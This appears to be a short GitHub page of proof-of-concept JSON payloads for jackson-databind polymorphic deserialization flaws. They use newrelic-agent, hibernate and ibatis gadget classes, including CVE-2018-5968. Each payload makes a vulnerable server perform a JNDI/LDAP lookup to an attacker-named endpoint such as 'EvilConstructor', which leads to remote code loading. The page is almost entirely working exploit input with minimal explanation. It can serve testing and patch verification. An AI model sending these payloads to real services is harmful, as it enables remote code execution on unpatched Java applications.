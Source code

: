 FasterXML jackson-databind 2.x before 2.9.10.8 mishandles the interaction between serialization gadgets and typing, 
related to com.newrelic.agent.deps.ch.qos.logback.core.db.JNDIConnectionSource
newrelic-agent
```json
["com.newrelic.agent.deps.ch.qos.logback.core.db.JNDIConnectionSource", {"jndiLocation":"ldap://127.0.0.1:1288/Exploitt"}]
```

This is PoC with two different gadgets to reproduce CVE-2018-5968 which can be used to exploit the default typing in jackson-databind.
```json
{
  "id": 1111,
  "obj": [
    "org.hibernate.jmx.StatisticsService",
    {
      "sessionFactoryJNDIName": "ldap://127.0.0.1/EvilConstructor"
    }
  ]
}
```
```json
{
  "id": 1111,
  "obj": [
    "org.apache.ibatis.datasource.jndi.JndiDataSourceFactory",
    {
      "properties":
        {
          "data_source": "ldap://127.0.0.1/EvilConstructor"
        }
    }
  ]
}
```
